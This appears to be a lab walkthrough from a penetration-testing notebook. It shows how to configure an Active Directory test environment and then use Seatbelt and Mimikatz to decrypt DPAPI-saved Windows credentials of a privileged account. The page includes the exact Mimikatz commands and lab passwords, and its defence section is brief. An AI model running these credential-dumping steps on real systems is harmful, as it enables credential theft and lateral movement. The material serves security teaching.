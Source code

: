 ```yaml
---
description: >-
  DPAPI stands for Data Protection API. Which is used by windows to securely
  save credentials.
---
```


# Dumping DPAPI

## Configuring

1. Login to `DC03` as the `Administrator` user with the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" management tool and open the "Users" directory. Right click the "Users" directory and click "New User"
3. Create a user with the name `sa_backup` and the password `LS6RV5o8T9`. Make sure you deselect "User must change password at next logon" and select "Password never expires".

![](<../../.gitbook/assets/image (67) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (62) (1) (1) (1) (1) (1).png>)

4\. Add the user to the "Account operator" and "Backup Operator" groups via the interface, memberof section or run the following command:

```
Add-ADGroupMember "Account Operators" -Members sa_backup
Add-ADGroupMember "Backup Operators" -Members sa_backup
Add-ADGroupMember "Server Operators" -Members sa_backup
```

5\. Login with the `sa_sql` user and the password `Iloveyou2` on `DATA01`.

6\. Click start and open the "Credential Manager".

![](<../../.gitbook/assets/image (64) (1) (1).png>)

7\. Click on the "Windows Credentials" tab and select "Add a Windows credential".

![](<../../.gitbook/assets/image (12) (1) (1).png>)

8\. Fill in the following information:

* Internet or network address: `secure.local`
* User Name: `sa_backup`
* Password: `LS6RV5o8T9`

![](<../../.gitbook/assets/image (21).png>)

## Attacking

### How it works

When you have comprimised a system and if a user is currently logged in you can retrieve its DPAPI masterkey and decrypt the saved credentials. This is also possible if you have the password of a user. These saved credentials might give you access to other systems or higher privileges within the domain and can be used for lateral movement.

### Tools

* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)

### Executing the attack

1. One of the things I like to do when gaining access to a system is running Seatbelt. This tool will check many things like permissions, groups and for stored credentials. The tool describes itself as:

> Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

The tool is great for detecting DPAPI secrets.

2\. To run Seatbelt and do some of it checks we can run the following command:

```
.\Seatbelt.exe -group=user
```

3\. In the output of the section WindowsCredentialFiles we can see that the user `sa_sql` has some credentials saved:

![](<../../.gitbook/assets/image (18) (1) (1).png>)

4\. We can find the master encryption key id and some information about the saved credentials with the following Mimikatz command using the previous path and FileName:

```
./mimikatz.exe
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD
```

![](<../../.gitbook/assets/image (12) (1).png>)

The `pbData` field contains the encrypted data and the `guidMasterKey` contains the GUID of the key needed to decrypt it.

{% hint style="info" %}
The latest compiled version of Mimikatz doesn't work on server 2022. Compiling the latest commit with Visual Studio 2019 gave me some errors, but this [https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64](https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64) repostorie/pull request worked for me without errors! I really hate compiling tools like this, always errors :cry:
{% endhint %}

5\. The next step is to retrieve the masterkey with the password of the user. Luckily we had its password from the previous pages were we captured the NTLMV2 hash after doing a UNC path injection through the SQL Service and cracked it. The password of the `sa_sql` user was `Iloveyou2`. With the following Mimikatz command we can retrieve the masterkey:

```
dpapi::masterkey /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Protect\S-1-5-21-1498997062-1091976085-892328878-1106\e1f462bb-9a65-40f0-a144-4f64bea97ce2 /sid:S-1-5-21-1498997062-1091976085-892328878-1106 /password:Iloveyou2 /protected
```

![](<../../.gitbook/assets/image (11) (1) (1).png>)

6\. We were able to retrieve the Masterkey, it it shown at the end of the output. Now we can read the saved credentials with the masterkey using the following Mimikatz command:

```
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD /masterkey:b3e8630e96acba990f836b4462a9285a4c987776f17f11b2559d9fdf67d03cf6b99dd89445d5641aef6f4477f7354eb6f19e3053e1d56712f45bc227249cdea2
```

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)

First we get the output of the first mimikatz command we ran, some information about the credentials. The output shows is the saved credential for the `sa_backup` user with the password `LS6RV5o8T9`.

7\. With the help of PowerView we can quickly check if this user has any value:

![](<../../.gitbook/assets/image (4).png>)

In PowerView we can see that `sa_backup` is member of the `Account Operators` en `Backup Operators` groups. These groups are interesting!

## Defending

### Recommendations

* Don't save RDP credentials in Windows.

### Detection



## References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords" %}
